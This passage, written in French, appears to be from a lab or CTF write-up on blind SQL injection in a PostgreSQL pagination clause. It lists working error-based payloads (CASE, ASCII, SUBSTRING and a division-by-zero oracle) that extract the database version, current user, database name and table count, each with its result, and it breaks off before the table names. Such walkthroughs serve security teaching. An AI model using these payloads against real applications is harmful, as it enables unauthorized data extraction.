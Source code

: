 ```sql
(SELECT CASE WHEN ASCII(SUBSTRING(VERSION(),3,1))=ASCII('s') THEN lastname ELSE (1/(SELECT 0))::text END)
```

La version de la base de données est "PostgreSQL 15.7 (Debian 15.7-0+deb12u1)".

Une solution plus rapide permettant d'identifier le type de base de données peut être la suivante :&#x20;

```sql
(SELECT CASE WHEN (VERSION() LIKE '%PostgreSQL%') THEN lastname ELSE (1/(SELECT 0))::text END)
```

Récupération de l'utilisateur PostgreSQL :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_USER,1,1))=ASCII('s') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_USER,2,1))=ASCII('q') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_USER,3,1))=ASCII('l') THEN lastname ELSE (1/(SELECT 0))::text END)
```

L'utilisateur PostgreSQL est "sql\_injection\_in\_pagination\_clauses".

Récupération du nom de la base de données :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_CATALOG,1,1))=ASCII('s') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_CATALOG,2,1))=ASCII('q') THEN lastname ELSE (1/(SELECT 0))::text END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(CURRENT_CATALOG,3,1))=ASCII('l') THEN lastname ELSE (1/(SELECT 0))::text END)
```

Le nom de la base de donnéest est "sql\_injection\_in\_pagination\_clauses\_database".

Récupération du nombre de tables :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING((SELECT COUNT(tablename) FROM pg_tables WHERE schemaname = 'public')::text,1,1))=ASCII('2') THEN lastname ELSE (1/(SELECT 0))::text END)
```

La base de données possède deux tables.

Récupération des noms des tables :&#x20;
